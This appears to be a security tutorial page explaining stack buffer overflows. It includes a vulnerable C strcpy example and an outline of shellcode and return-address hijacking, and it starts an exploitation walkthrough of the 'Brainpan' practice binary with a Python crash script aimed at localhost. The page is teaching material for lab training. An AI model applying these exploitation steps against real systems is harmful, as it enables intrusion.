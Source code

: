 ## Stack Overflows

## What is a Stack Buffer Overflow?

A stack buffer overflow is a type of vulnerability that occurs when a program writes more data to a buffer on the stack than it was originally allocated to hold. Buffers are blocks of memory, typically arrays or character strings, that store temporary data. When a program doesn’t check the amount of data written to a buffer, it can overwrite other parts of the stack, which can cause unintended behavior, crashes, or security vulnerabilities.

In short, a stack buffer overflow happens when the data you’re writing exceeds the buffer’s allocated memory and begins to overwrite adjacent memory, potentially including the return address and local variables stored on the stack.

### Example of a Stack Buffer Overflow

Consider this C code:

```c
#include <stdio.h>
#include <string.h>

void vulnerable_function(char *str) {
    char buffer[10];  // Allocate a small buffer of 10 bytes
    strcpy(buffer, str);  // Copy input into buffer without checking size
}

int main() {
    char *long_string = "This string is too long for the buffer!";
    vulnerable_function(long_string);
    return 0;
}
```

#### In this example:

1. The function vulnerable_function creates a buffer on the stack that can hold only 10 bytes.
2. The strcpy function copies the contents of long_string into buffer.
3. Since long_string is longer than 10 bytes, strcpy writes beyond the boundaries of buffer, causing a stack buffer overflow.

### Why Is a Stack Buffer Overflow Dangerous?

When the data overflows past the buffer, it overwrites nearby memory on the stack, which can include:

- Return addresses: Changing the return address can redirect the program’s execution flow, often to code provided by an attacker.
- Local variables and control structures: This can change the behavior of the function, possibly causing unexpected actions or program crashes.

### Exploiting a Stack Buffer Overflow

Attackers can exploit stack buffer overflows to inject and execute malicious code. Let’s break down how:

1. Controlling the Return Address: By carefully crafting the overflow data, an attacker can overwrite the return address with the memory address of their own malicious code.
2. Injecting Malicious Code: The attacker can place malicious code (often called shellcode) in memory, usually within the overflowed buffer.
3. Redirecting Execution: When the function returns, instead of returning to the caller, it jumps to the attacker’s code, effectively granting control over the program.

## Example of Exploitation

In this section we are going to exploit a binary called "Brainpan". You can download it here --> [brainpan.exe](/assets/binaries/brainpan.exe).

We have the following exploit template:

### Initial Crash

```py
import struct
import socket

TARGET_IP = "127.0.0.1"
TARGET_PORT = 9999
target = (TARGET_IP, TARGET_PORT) 

CRASH_LEN = 5000  # change me

payload = b"A" * CRASH_LEN

with socket.create_connection(target) as sock:
    sock.recv(512) 

    sent = sock.send(payload)
    print(f"sent {sent} bytes")

```

We start clicking at the binary to execute it.


